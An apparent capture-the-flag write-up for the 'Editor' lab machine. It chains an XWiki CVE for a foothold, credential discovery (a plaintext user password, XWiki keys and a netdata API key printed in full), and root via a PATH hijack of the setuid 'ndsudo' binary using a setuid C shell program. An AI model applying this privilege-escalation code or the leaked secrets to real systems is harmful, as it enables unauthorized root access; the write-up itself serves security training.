+++
title = 'Editor'
description = 'Easy Linux'
writeup = true
hideMeta = true
+++



Jetty 10.0.20 - a Java-based HTTP server and servlet container, often used to serve Java web applications. From a security standpoint, Jetty 10.0.20 processes new `.xml` and `.war` files automatically if uploaded to certain directories (e.g. `$JETTY_BASE/webapps/`). That can be exploited for RCE if an attacker can upload a crafted XML file - the server deploys and executes it automatically.





It uses XWiki 2.1 - an open-source enterprise wiki. Version 15.10.11.



Found a CVE that works for that version:

https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2024-24893.py






Checking the rows and columns of our current stty.



"Breaks out of the limited shell" - https://viperone.gitbook.io/pentest-everything/everything/everything-linux/shell-upgrades. Note: tty shell spawn doesn't work if the Kali shell is zsh.



Ran linpeas - possibilities:




- `/opt/netdata/etc/netdata/.environment`
- `/etc/xwiki/cache/infinispan/config.xml`
- `/opt/netdata/var/log/netdata/access.log`
- `/var/log/nginx/access.log`
- tomcat stuff?
- `/usr/share/openssh/sshd_config`

Databases, config files:



```
      956     64 -rw-r--r--   1 xwiki    xwiki       62127 Aug  8 07:48 /var/log/xwiki/2025_08_08.request.log
     1044      4 -rw-r--r--   1 xwiki    xwiki        3710 Jul 29 12:24 /var/log/xwiki/2025_07_29.jetty.log
     1054    588 -rw-r--r--   1 xwiki    xwiki      595797 Aug  8 08:02 /var/log/xwiki/2025_08_08.jetty.log
```

```
xwiki@editor:~/data$ cat configuration.properties 
xwiki.authentication.validationKey = \uBF48\u0EE2\u03FE\u4B0F\u3C8E\u35DA\uEEB8\u4013\u1E90\uF9A7\u4040\u28EA\uD217\u288BF\u6AF7\u377E\u295C\uC98D\u17FB5\uD3D4\u967F\uB8DE\u955B\uD54B\uEE55\u890D\uAFFC\u993B\u1C49\u9B87
xwiki.authentication.encryptionKey = \uC327\u7B18\u1FFE\u913D\uEDBD\u6C85\uE778\uD7C6\u91D0\uA56F\uE1CB\u014B\uD03E\u9E5D\uED9D\uB44A\u3A0C\u1C76\uF0D6\u8289\u645F\u6EB8\u00EB\u99DA\u589E\uE3CE\uC24A\u9486\u5EAB\u2E85\uCCEB\uAF4D
```

Databases - login database. `start_xwiki.sh` seems to contain code to start xwiki on relevant ports. There's an internal debug instance of xwiki running? - `start_xwiki_debug.sh`.





oliver password = `theEd1t0rTeam99`



Oliver is part of the "netdata" group; files in `/opt/netdata` are owned by the netdata group. Interesting: `netdata.api.key` = `6c6fd886-4a06-11f0-9b17-005056b42a8d`.



netdata is a real-time monitoring solution for apps and infrastructure. `netdata.public.unique.id` = `6c5c7d22-4a06-11f0-9b17-005056b42a8d`.

Looked for netcat / port forwarding to see what's happening.



From above, netcat was running on port 49246?? (That was wrong.) Port 3306:



Searched online for port forwarding into a netdata instance - the port info is in `/etc/netdata/netdata.conf`, or in this case `/opt/netdata/etc/netdata/netdata.conf` under `[web]`. The port was 19999.



Clear indication at the top that this version of netdata has vulnerabilities. Searching "netdata vulnerabilities" points to an issue with the way the `ndsudo` executable works. Location of ndsudo:





We have execute permissions on `ndsudo` and the setuid bit is set - meaning we can execute it as root.



Created `nvme`:



Changed the path so ndsudo would use our copy:

```bash
export PATH="/tmp:$PATH"
chmod +x /tmp/nvme
```

Also changed the file to just `/bin/bash` which is easier. This did not work though - nvme ran, but as oliver, not root, for some reason.

So I created a binary locally in C:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 

int main() {
    setuid(0);
    setgid(0);
    system("/bin/sh");
    return 0;
}
```

and transferred it to the target at `/tmp/nvme`.

This time `./ndsudo nvme-list` gave the root shell!

**Why?** The SUID bit allows a program to run with the permissions of the file's owner, but the Linux kernel intentionally ignores the SUID bit on shell scripts to prevent a wide range of privesc attacks. The C binary worked; the bash script didn't.
